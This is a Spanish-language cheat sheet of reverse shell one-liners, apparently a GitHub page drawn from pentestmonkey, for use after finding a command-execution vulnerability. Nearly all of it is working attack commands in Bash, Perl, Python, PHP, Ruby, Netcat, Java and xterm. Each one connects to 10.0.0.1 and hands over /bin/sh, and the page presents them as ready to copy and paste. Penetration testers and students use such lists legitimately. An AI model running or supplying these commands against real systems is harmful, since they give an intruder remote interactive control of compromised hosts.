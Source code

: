 # Reverse Shells
Si tiene la suerte de encontrar una vulnerabilidad de ejecución de comandos, probablemente querrán un shell interactiva.
Cada uno de los métodos son de una sola línea que puede copiar / pegar.
* [Bash](#bash)
* [PERL](#perl)
* [Python](#python)
* [PHP](#php)
* [Ruby](#ruby)
* [Netcat](#netcat)
* [Java](#java)
* [xterm](#xterm)
## Bash
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
## PERL
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
```
## Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
## PHP
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
## Ruby
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
## Netcat
```
nc -e /bin/sh 10.0.0.1 1234
```
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
## Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
## xterm
```
xterm -display 10.0.0.1:1
```
```
Xnest :1
```
```
xhost +targetip
```
## Referencias
* [All Shells](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

